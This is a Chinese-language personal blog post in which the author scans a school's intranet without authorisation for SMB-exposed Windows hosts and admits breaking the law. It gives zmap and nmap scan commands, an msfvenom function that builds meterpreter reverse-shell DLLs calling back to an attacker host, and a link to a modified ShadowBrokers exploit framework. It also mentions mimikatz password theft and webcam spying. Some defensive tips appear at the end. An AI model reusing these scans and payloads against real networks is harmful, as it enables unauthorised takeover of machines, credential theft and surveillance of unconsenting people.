 ```yaml
---
layout : post
targs : code
premalink : pretty
---
```


今天测试了一下学校的内网主机，傻逼学校没做VLAN，光在 `10.170.0.0/16` 就扫到了 *1662* 台开着 *445* 端口的主机:

```bash
➜  ./fmt.sh | wc -l                   
1662
➜  ./fmt.sh | grep "Windows 7" | wc -l
451
➜  ./fmt.sh | grep "Windows 8" | wc -l
378
➜  ./fmt.sh | grep "Windows 10" | wc -l
788
➜  ./fmt.sh | grep "Windows XP" | wc -l
40
➜  ./fmt.sh | grep "Windows 2008" | wc -l
3
➜  ./fmt.sh | grep "Windows 2008"        
[*] 10.170.6.47       - Windows 2008 R2 Standard SP1  (name:WIN-4K4BK0ASC6S) 
[*] 10.170.21.57      - Windows 2008 R2 Enterprise SP1  (name:WIN-5QRE8RSJDPG) 
[*] 10.170.23.233     - Windows 2008 R2 Enterprise SP1  (name:WIN-KN28SU23S2F)
➜ 
```

其中还有几台2008服务器，唉，啥都不说了。

大体扫描了一下，Win7的装机率还是挺高的，有`27%`，关键，任何一台Win7都有80%以上的概率会被直接搞掉，也就是说，这1600多台主机中，有 `450*0.8=360` 台机器可以拿来当肉鸡，什么360,电脑管家，鸟用没有。

而且还有40台XP？？？我真是醉的不行。

这个扫描是在下午进行的，那时候上课的人还不少，我在吃完晚饭回来的时候又扫了一下，得到了：

```bash
➜  grep "Up" nmap_out_2 | wc -l
2732
➜  grep "Windows 7" nmap_out_2 | wc -l
682
```

将近700台开着445端口的Win7,乘以个0.8, 就是560台肉鸡。

总体看来，有25%以上的同学还在使用Win7，并且没有开防火墙，没有关闭445端口。可怕。

很多时候就是打开防火墙的一个问题，在这里推荐一个Windows下的流量管理工具 *[GlassWire](https://www.glasswire.com/)*，有简单的防火墙功能，而且，很漂亮。

我还把shadowbroker的fb框架改了改，可以直接跑script脚本了：<https://github.com/wrfly/shadowbroker-auto>

然后用到的一些扫描命令，在这里记一下：

```bash
#zmap
docker run --privileged --rm -ti -v `pwd`:/tmp dominik/zmap -p 445 10.170.0.0/16 -o /tmp/result

#nmap
nmap --script smb-os-discovery.nse -p445 -iL result 
sudo nmap -O --osscan-guess -Pn -T4 -p 445 -iL result -n -oG out

#msg窗口
msg.exe * "Your System is Vulnerable. Upgrade Your System to Windows 8+, or Turn On Your Fire Wall."
```

一个小的function:
```bash
generate_msfvenom () {
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=$1 LPORT=8888 -f dll > go.dll
	msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$1 LPORT=8888 -f dll > go_64.dll
}
```

然后刚知道，meterpreter有一个自带的mimikatz，可以直接load，然后拿密码的。

meterpreter的摄像头监控，是一直拍照片，然后有个网页加载这个照片。。。

摄像头被非法打开的时候，灯是会亮的，这个时候你就要考虑拔网线了。百度是没用的。

忘记那个杀毒软件了，有个防止非法开启摄像头的功能，很赞。

其实路由器也能当防火墙用，因为路由器不会开那么多端口。

Windows的系统更新很重要。

嗯，我违法了。

![oOo](../img/s/fb/sb-fb-screenshots.png)


一点小建议：

- 打开Windows的防火墙，并开启系统更新
- 摄像头的灯如果莫名亮了，那就要拔网线
- 虽然隐私已经不存在了，但还是要多关注一下安全
- 学校漏洞很多，应该找专人负责，并，给予报酬
- 别用XP了，真的
- 程序员更应该关注安全，别一天到晚写代码，自己电脑被日了都不知道

就这些吧。

---

刚才又扫了一批（上午十一点左右）：
```bash
Nmap done: 1969 IP addresses (1969 hosts up) scanned in 1790.78 seconds
➜  4-19 grep "Windows 7" nmap_scan | wc -l
573
```

*30%*的 Windows 7


